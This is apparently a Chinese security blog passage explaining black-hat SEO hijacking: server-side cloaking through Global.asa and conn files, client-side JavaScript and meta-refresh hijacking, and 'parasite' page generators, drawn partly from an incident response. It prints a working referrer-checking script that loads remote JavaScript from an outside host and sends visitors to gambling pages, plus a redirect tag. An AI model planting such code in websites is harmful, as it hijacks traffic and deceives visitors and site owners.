 ##### 服务端劫持
　　服务端劫持也称为全局劫持，此手法为修改网站动态语言文件，判断访问来源控制返回内容，从而达到网页劫持的目的。其特点往往是通过修改asp/aspx/php等后缀名文件，达到动态呈现网页内容的效果。
　　Global.asa、Global.asax、conn.asp、conn.php等文件比较特殊，作用是在每次执行一个动态脚本的时候，都会先加载该脚本，然后再执行目标脚本。所以只要在 Global.asa 中写判断用户系统信息的代码（访问来源等），如果是蜘蛛访问则返回关键词网页（想要推广的网站），如果是用户访问则返回正常页面。

##### 客户端劫持
客户端劫持的手法也很多，但最常用的就两种：js劫持与Header劫持。

js劫持目的是通过向目标网页植入恶意js代码，控制网站跳转、隐藏页面内容、窗口劫持等。js植入手法是可以通过入侵服务器，直接写入源代码中；也可以写在数据库中，因为有些页面会呈现数据库内容。

js劫持代码案例：
以下代码可以使通过搜索引擎搜索的并点击页面时，执行一段js并跳转到博彩页面；而直接输入网址访问网页时，跳转到一个404页面。
```bash
today=new Date();
today=today.getYear()+"-"+(today.getMonth()+1)+"-"+today.getDate();
var regexp=/\.(sogou|so|haosou|baidu|google|youdao|yahoo|bing|gougou|118114|vnet|360|ioage|sm|sp)(\.[a-z0-9\-]+){1,2}\//ig;
var where =document.referer;
if(regexp.test(where)){
document.write ('<script language="javascript" type="text/javascript" src="http://www.xxx.com/test.js"></script>');
}
else
{
window.location.href="../../404.htm";
}
```
　　代码分析：通过referer判断来路，如果referer来路为空就是跳转到404页面，如果是搜索引擎来的referer里面也会有显示，然后在写代码控制跳转。如果只是控制实现显示不同的内容，可以修改php、asp代码；如果需要劫持搜索引擎搜索框，可以写JS代码来做浏览器本地跳转。当然js功能可以无限扩展，比如可以控制一个ip一天内第一次访问正常，其余访问跳转等等。

header劫持，就是在html代码的head中添加特殊标签，代码如下：
```bash
<meta http-equiv="refresh" content="10; url=http://thief.one">
```
header劫持利用的就是Meta Refresh Tag（自动转向）功能将流量引走。

#### 直接篡改网页内容（比较低级）
　　有些黑客在入侵网站后，喜欢直接篡改网页内容，比如放上自己的qq号，或者作为推广将网页篡改成非法页面。在此我对此做法的黑客表示鄙视，因为这是一种最恶劣最低级的手法。恶劣在于直接篡改网页内容，可能会导致网站无法挽回的损失；低级在于此手法极易被发现，起不到真正的引流推广作用。

#### 利用高权重网站二级目录
　　即黑客入侵网站后，在网站二级目录下创建很多自己做推广的页面。为了达到引流的目的黑客往往需要建立大量的二级目录页面，因此需要用到寄生虫程序来自动化的创建页面。此手法也需要入侵高权重网站，获取网站服务器权限。与网页劫持手法不同的是，此手法侧重点在于利用高权重网站自身的优势，在其目录下创建多个推广页面；而网页劫持侧重隐藏自身，其可以做到动态呈现网页内容给客户。因此在实际使用中，黑客经常结合两者使用。此手法与利用泛解析做黑帽seo的手法还是有明显差异的，虽然同样是利用高权重网站本身的优势，但泛解析利用的是二级域名，而此手法利用的是二级目录，当然两者有异曲同工之妙。
　　利用高权重网站二级目录手法的案例与泛解析案例类似，这里不再详述。既然我前面提到此手法往往需要寄生虫程序的配合使用，那么我们来看看，何为寄生虫程序？它又有何玄机？

### 寄生虫（jsc)
　　寄生虫是黑帽SEO常用的一种方法，通过侵入别人网站，植入寄生虫程序，自动生成各种非法页面。之所以叫做寄生虫是因为能够自己触发生成，而不是一次生成，例如在访问网页的时候触发，自动生成页面且形成链轮等。简单来说，寄生虫是一种程序，此程序的功能是能够自己创建网页文件，而创建的条件可以定制，比如说当有人访问某个页面时就会触发寄生虫程序生成一批新的网页文件，或者每天定时创建等等。
　　我曾经在给一个客户处理应急响应事件时，便遇到过此类状况。每当我清理完所有恶意网页文件后，服务器上都会不时地自动生成一大批新的网页文件。令人头疼的是，当时我完全掌握不了生成新文件的规律。后来我们在一一排除web服务器上的文件时，发现了其中一个恶意的动态语言文件（由于种种原因，样本没有保留下来），此恶意文件就是类似寄生虫程序，会在我们访问此网站的某个页面触发，生成一批新的恶意页面。

#### 寄生虫分类
　　寄生虫分为动态与静态，动态寄生虫程序的就是会不断自动生成新的页面（如我上面所述案例），或者是刷新页面以后自动变化内容，动态寄生虫生成的恶意文件往往是asp/php后缀文件；而静态寄生虫程序生成的页面往往都是固定不变的内容，大多为html后缀文件。
